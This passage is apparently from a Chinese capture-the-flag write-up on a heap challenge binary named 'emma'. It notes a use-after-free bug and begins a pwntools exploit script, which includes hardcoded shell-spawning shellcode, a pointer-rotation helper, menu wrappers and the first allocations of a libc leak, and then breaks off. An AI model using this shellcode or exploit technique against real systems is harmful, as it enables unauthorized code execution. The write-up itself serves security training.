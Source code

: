 ![image-20220613094447062](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220613094447062.png)

![image-20220613094507765](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220613094507765.png)

以及一个UAF

![image-20220613094523441](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220613094523441.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./emma')
elf = ELF("./emma")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)

def add(idx,size,con='a'):
  sla(">>",1)
  sla("Index:",idx)
  sla("Size:",size)
  p.sendafter('Content',con)

def show(idx):
  sla(">>",3)
  sla("Index:",idx)

def edit(idx,con):
  sla(">>",2)
  sla("Index:",idx)
  p.sendafter('Content',con)

def dele(idx):
  sla(">>",4)
  sla("Index:",idx)

#------------------------------leak-----------------------------
add(-4,0x418)
add(1,0x418)
add(2,0x420)
```